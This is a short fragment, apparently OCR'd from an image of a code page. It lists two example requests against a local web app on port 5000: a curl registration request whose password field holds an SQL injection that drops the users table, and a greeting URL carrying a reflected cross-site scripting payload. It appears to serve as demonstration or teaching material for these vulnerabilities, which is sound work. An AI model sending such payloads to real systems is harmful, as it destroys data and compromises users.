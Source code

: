 COMMANDS/REQUESTS:

curl -X POST http://localhost:5000/register \
     -H "Content-Type: application/json" \
     -d '{"username": "attacker", "password": "'\''; DROP TABLE users; --"}'

http://localhost:5000/greet?name=<script>alert("Hacked!")</script>

